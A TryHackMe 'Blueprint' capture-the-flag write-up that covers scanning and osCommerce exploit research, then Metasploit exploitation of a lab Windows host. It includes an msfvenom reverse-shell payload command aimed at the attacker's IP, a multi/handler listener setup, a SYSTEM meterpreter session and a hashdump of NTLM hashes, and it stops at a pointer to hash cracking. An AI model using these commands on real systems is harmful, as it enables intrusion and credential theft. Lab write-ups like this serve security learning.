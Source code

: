 # TryHackMe-Blueprint

>Abdullah Rizwan | 23th September , 11:03 PM

## NMAP

```
nmap -sC -sV $IP

```

```
Nmap scan report for 10.10.37.223
Host is up (0.38s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.42 seconds

```




## Gobuster


```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.37.223:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/23 14:30:08 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/aux (Status: 403)
/cgi-bin/ (Status: 403)
/com2 (Status: 403)
/com3 (Status: 403)
/com1 (Status: 403)
/con (Status: 403)
/licenses (Status: 403)
/lpt1 (Status: 403)
/lpt2 (Status: 403)
/nul (Status: 403)
/phpmyadmin (Status: 403)
/prn (Status: 403)
/server-status (Status: 200)
/server-info (Status: 200)
/webalizer (Status: 403)
===============================================================
2020/09/23 14:32:46 Finished

```


## PORT 8080


https://imgur.com/BFgp2dj.png



I looked up on exploitdb for `osCommerce 2.4.3` and found many exploits one of which was


https://imgur.com/vMcOi7I.png



https://imgur.com/nUiVxuX.png


For me this exploit failed since I cannot make a new installation of database and RCE depends upon this step to be finished.


## Metasploit

I looked on msfconsole if there was an exploit available

https://imgur.com/xnu5rzj.png

https://imgur.com/FAjAfSx.png

https://imgur.com/jKf21kZ.png

Then navigate to `C:\Users\Administrator\Desktop`

root flag : `THM{aea1e3ce6fe7f89e10cea833ae009bee}`


Now we cannot load `kiwi` because it is not stabilized so we are going to create a payload 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.94.60 LPORT=7777 -f exe > shell.exe`


Upload the payload on the machine
```
meterpreter > upload shell.exe
[*] uploading  : shell.exe -> shell.exe
[*] Uploaded -1.00 B of 72.07 KiB (-0.0%): shell.exe -> shell.exe
[*] uploaded   : shell.exe -> shell.exe
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  282    fil   2019-04-11 18:36:47 -0400  desktop.ini
100666/rw-rw-rw-  37     fil   2019-11-27 13:15:37 -0500  root.txt.txt
100777/rwxrwxrwx  73802  fil   2020-09-23 15:02:08 -0400  shell.exe

meterpreter > 


```

Start another msfconsole

```
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 10.8.94.60
LHOST => 10.8.94.60
msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf5 exploit(multi/handler) > 

```

### Meterpreter on unstabilized Shell

```
meterpreter > execute -f shell.exe
Process 5212 created.
meterpreter > 

```

### Meterperter for getting stablized shell


```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.94.60:7777 
[*] Sending stage (176195 bytes) to 10.10.143.248
[*] Meterpreter session 1 opened (10.8.94.60:7777 -> 10.10.143.248:49167) at 2020-09-23 15:13:54 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter > 

```
Visit Crackstation 